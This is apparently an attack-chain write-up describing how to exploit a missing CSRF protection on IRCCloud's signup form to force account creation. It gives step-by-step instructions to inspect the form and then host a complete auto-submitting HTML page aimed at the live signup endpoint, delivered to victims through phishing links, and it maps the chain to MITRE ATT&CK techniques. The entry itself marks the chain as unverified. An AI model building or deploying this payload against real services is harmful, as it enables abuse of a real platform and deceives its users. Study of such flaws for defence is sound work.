

# CSRF Exploitation on IRCCloud Signup Form for Forced Account Creation

Multi-stage attack chain demonstrating a complete attack workflow exploiting the absence of CSRF protections in IRCCloud's signup form.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | Medium |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (relies on browser developer tools and basic HTML crafting)

### Target Environment

- Web platform (IRCCloud signup page)
- No specific ports or services required beyond standard HTTPS (443)
- Attacker needs to host a malicious webpage (e.g., via free hosting or local server)

### Initial Access Requirements

- Victim must be tricked into visiting the attacker's malicious page (e.g., via phishing link)
- No prior credentials needed; targets unauthenticated signup flow
- Network access to IRCCloud's signup endpoint

## Detailed Attack Procedures

### Step 1: Identify Vulnerable Signup Form
procedure: [[procedures/Exploit-CSRF-in-Signup-Form]]

**Objective**: Inspect the target signup form to confirm lack of CSRF protections, enabling cross-origin form submission.

**Instructions**: Use browser developer tools to inspect the HTML of IRCCloud's signup form. Look for the POST method, form fields (realname, email, password, hidden invite/org_invite), and absence of CSRF tokens or origin checks.

**Expected Output**: HTML source revealing no anti-CSRF measures, such as:

```html
<form method="POST" action="/signup">
  <input type="text" name="realname" />
  <input type="email" name="email" />
  <input type="password" name="password" />
  <input type="hidden" name="invite" value="" />
</form>
```

**Success Indicators**:
- Form uses POST without CSRF token
- No SameSite cookie attributes or origin validation visible

### Step 2: Craft and Deliver Malicious Page for Forced Submission
procedure: [[procedures/Exploit-CSRF-in-Signup-Form]]

**Objective**: Create a malicious HTML page that auto-submits the signup form with attacker-controlled data when visited by the victim, forcing account creation.

**Instructions**: Host a simple HTML page on an attacker-controlled domain. Include an auto-submitting form targeting IRCCloud's endpoint. Trick the victim into visiting it (e.g., via email link). Example malicious HTML:

```html
<!DOCTYPE html>
<html>
<body>
  <form id="csrf-form" method="POST" action="https://www.irccloud.com/signup">
    <input type="text" name="realname" value="Victim Name" />
    <input type="email" name="email" value="victim@example.com" />
    <input type="password" name="password" value="weakpass123" />
    <input type="hidden" name="invite" value="" />
  </form>
  <script>
    document.getElementById('csrf-form').submit();
  </script>
</body>
</html>
```

Monitor IRCCloud for the new account or check via API/email confirmation.

**Expected Output**: Victim's browser submits the form silently, creating an account with the specified details.

**Success Indicators**:
- New account appears in IRCCloud with attacker-supplied data
- Victim receives signup confirmation email (if email is valid)

## Attack Chain Summary

### Key Achievements

1. Confirmed CSRF vulnerability in signup form lacking protections
2. Demonstrated forced account creation via cross-origin POST
3. Highlighted potential for spam or abuse through unwanted registrations

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[Drive-by Compromise]] Drive-by Compromise

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access

---
*Last updated: 2023-10-01T00:00:00Z*
